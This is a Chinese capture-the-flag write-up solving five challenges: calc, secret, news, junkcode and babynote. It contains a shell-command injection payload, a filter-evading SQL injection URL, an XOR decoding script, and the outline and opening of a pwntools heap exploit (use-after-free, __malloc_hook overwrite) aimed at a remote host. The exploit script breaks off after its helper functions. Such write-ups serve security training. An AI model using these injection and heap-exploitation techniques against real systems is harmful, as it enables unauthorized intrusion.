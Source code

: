 
## 一、calc

注入shell命令: a";ls;"  发现存在文件: there_1s_4_fl4g
注入:  a"cat there_1s_4_fl4g # 得到flag


## 二、secret
在 chrome 浏览器中打开 view-source:http://202.120.7.207:60007/
![](2.1.png)
ZmxhZzpJU0d7SDNJSU9fMXNHX2pzX1RyNHB9 做 base64 解码得到 flag:ISG{H3IIO_1sG_js_Tr4p}
(也可以关闭JS，访问F12查看源码得到密文，再做解密)

## 三、news
查看对输入进行了过滤的codesafe函数：
![](3.1.png)
使用正则表达式对输入进行过滤；变换大小写绕过过滤规则。
构造payload如下：
http://202.120.7.206:60009/news-1/**/and/**/1>2/**/union/**/Select/**/flag,2/**/from/**/flag.html
访问得到flag

## 四、junkcode
Ida pro 载入：发现两段数据
![](4.1.png)
逐字节异或即可：

```
#!/usr/bin/python
# -*- coding: UTF-8 -*-
Arr1 = [0xDF,0xD8,0x8D,0xA3,0x18,0xAC,0x86,0x8B,0xA8,0x6E,0x76,0x24,0x4C,0x1D,0xCC,0xAF,0x4A,0x73,0x5E,0x24,0xDC,0xD5,0xA7]

Arr2 = [0x96,0x8B,0xCA,0xD8,0x72,0xF9,0xE8,0xC0,0xF7,0x0D,0x46,0x40,0x29,0x42,0xA2,0x9F,0x3E,0x2C,0x34,0x71,0xB2,0x9E,0xDA]

for index in range(len(Arr1)):
  print  chr( Arr1[index] ^Arr2[index])
```
## 五、babynote
程序存在UAF漏洞，先使用smallbin来泄漏出libc地址
然后使用fastbin unlink将malloc的返回地址指向__malloc_hook - 0x13的地方
将__malloc_hook的值，指向one_garget
最后使用double free来触发

```
#!/usr/bin/env python # encoding: utf-8
from pwn import *
context.terminal = ['tmux', 'splitw', '-h', '-p', '60']
#r = process("./babynote")
r = remote("202.120.7.206" ,60002)
def add(size, content):
     r.sendlineafter(">", "1") 
     r.sendlineafter(":", str(size)) 
     r.sendafter(":", content)

def edit(idx, content): 
    r.sendlineafter(">", "3") 
    r.sendlineafter(":", str(idx)) 
    r.sendafter(":", content)

```